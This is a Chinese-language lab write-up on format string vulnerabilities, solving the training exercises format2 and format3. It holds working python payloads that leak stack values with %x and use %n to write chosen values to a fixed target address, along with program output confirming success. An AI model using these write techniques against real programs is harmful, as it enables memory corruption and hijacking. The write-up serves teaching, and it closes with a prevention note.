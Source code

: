 # <center>格式化字符串实验2</center>

## 实验概述

### 【目的】
1. 运行format2,得到输出`you have modified the target :)`
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】
#### format2
IDA pro 定位到关键函数。
```c
int vuln()
{
  char s; // [sp+Ch] [bp-20Ch]@1
  int v2; // [sp+20Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fgets(&s, 512, stdin);
  printf(&s);
  if ( target == 64 )
    puts("you have modified the target :)");
  else
    printf("target is %d :(\n", target);
  return *MK_FP(__GS__, 20) ^ v2;
}
```
target的地址
```
.bss:0804A048 target          dd ?                    ; DATA XREF: vuln+43r
.bss:0804A048                                         ; vuln:loc_804854Ar
.bss:0804A048 _bss            ends
```
与format1不同的是，这里要求精确控制target的的值为64。
跟上一题一样，先查找format参数的偏移量。
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format2
AAAA1:200.2:f7fb65a0.3:f7ff0f8a.4:f7e0c008.5:f7fd41a8.6:f7ffcf1c.7:41414141.8:78253a31.9:253a322e.10:3a332e78.11:342e7825.12:2e78253a.13:78253a35.14:253a362e.15:3a372e78
target is 0 :(

```
尝试修改target变量的值
```
$ python -c 'print "\x48\xa0\x04\x08%7$n"' | ./format2
H�
target is 4 :(

```
这里target的值被改写成为4，要使target的值为64，需要在%n前面再多输出60个字符，c语言中，`%`后可以接数字表示输出的位数，那么要输出60个字符，就可以使用`%60d`。
```
$ python -c 'print "\x48\xa0\x04\x08%60d%7$n"' | ./format2
H�                                                         512
you have modified the target :)

```

#### format3

```
int vuln()
{
  char s; // [sp+Ch] [bp-20Ch]@1
  int v2; // [sp+20Ch] [bp-Ch]@1

  v2 = *MK_FP(__GS__, 20);
  fgets(&s, 512, stdin);
  printbuffer(&s);
  if ( target == 0x1025544 )
    puts("you have modified the target :)");
  else
    printf("target is %08x :(\n", target);
  return *MK_FP(__GS__, 20) ^ v2;
}
.bss:0804A048                 public target
.bss:0804A048 target          dd ?                    ; DATA XREF: vuln+43r
.bss:0804A048                                         ; vuln:loc_8048563r
.bss:0804A048 _bss            ends
```
这里要求target = 0x01025544，由于%n一次只能输入一个字节，所以我们需要调用四次%n来改写target的值。
先寻找偏移量是多少。
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format3
AAAA1:f7feeff0.2:f7e6362b.3:0.4:f7fb6000.5:f7fb6000.6:ffffcf58.7:8048542.8:ffffcd4c.9:200.10:f7fb65a0.11:f7ff0f8a.12:f7e0c008.13:f7fd41a8.14:f7ffcf1c.15:41414141
$ python -c 'print "ABCD" + "X" * 4 + "%15$x."' | ./format3
ABCDXXXX44434241.
target is 00000000 :(

```
确定了偏移量是15，先尝试一下修改。
```
$ python -c 'print "\x48\xa0\x04\x08"  + "%64d%15$n."' | ./format3
H�                                                      -134287376.
target is 00000044 :(

```
成功修改了最低一位的值，再尝试修改两位。
```
$ python -c 'print "\x48\xa0\x04\x08\x49\xa0\x04\x08"  + "%60d%15$n%17d%16$n"' | ./format3
H�I�                                                  -134287376       -135907797
target is 00005544 :(

```
注意，这里前面的地址输入了8位，那么后面的位数也要相应的减去4，可以看到原本的%64d变成了%60d。
现在要控制第三位的值，考虑到需要把值改为0x02，而0x55大于0x02，此时需要溢出到258。因为258刚好是0x0102，所以此时已经满足条件。
```
$ python -c 'print "\x48\xa0\x04\x08\x49\xa0\x04\x08\x4a\xa0\x04\x08"  + "%56d%15$n%17d%16$n%173d%17$n"' | ./format3
H�I�J�                                              -134287376       -135907797                                                                                                                                                                            0
you have modified the target :)

```



### 【总结】
本次实验主要进一步熟悉了通过%x泄露内存数据，通过%n来进行任意地址写，通过%`x`d来控制输出x个字符。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。
